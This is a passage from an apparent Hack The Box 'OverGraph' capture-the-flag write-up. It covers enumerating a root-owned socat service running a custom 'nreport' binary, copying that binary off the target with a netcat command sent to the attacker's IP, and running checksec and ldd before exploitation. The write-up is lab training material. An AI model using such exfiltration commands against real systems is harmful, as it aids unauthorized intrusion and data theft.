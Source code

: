 ## Privilege Escalation
### Enumeration
Enumerating the machine we see a socat process running as root:
```bash
user@overgraph:~$ ps -ef | grep root
...[SNIP]...
root 953 950  0 Jun16 ?        00:00:00 /bin/sh -c sh -c 'socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr'
root 955 953  0 Jun16 ?        00:00:00 sh -c socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr
root 956 955  0 Jun16 ?        00:00:00 socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr
...[SNIP]...
```

It is a custom application:
```bash
user@overgraph:/usr/local/bin/Nreport$ ls -la
total 40
drwxr-xr-x 3 root root  4096 Apr 12 17:38 .
drwxr-xr-x 3 root root  4096 Apr 12 17:38 ..
drwxr-xr-x 2 root root  4096 Feb 14 18:31 libc
-rwxr-xr-x 1 root root 26040 Feb 14 12:30 nreport

user@overgraph:/usr/local/bin/Nreport$ ./nreport 
Custom Reporting v1

Enter Your Token: test
Invalid Token
```

Lets download the binary and the libc folder to our machine:
```bash
# Kali - Receiver
$ nc -l -p 1234 > nreport

# Target - Sender
$ nc -w 3 10.10.14.4 1234 < /usr/local/bin/Nreport/nreport
...[SNIP]...
```

### Binary Exploitation - Code Analyses
First we see that the binary is linked to the libc so we will need to patch:
```bash
$ checksec ./nreport                  
[*] '/home/caue/htb/overgraph/binary/nreport'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    RUNPATH:  b'/usr/local/bin/Nreport/libc/'

$ ldd ./nreport 
        linux-vdso.so.1 (0x00007fffe98fa000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f2dc3ff2000)
        /usr/local/bin/Nreport/libc/ld-2.25.so => /lib64/ld-linux-x86-64.so.2 (0x00007f2dc41e9000)
```
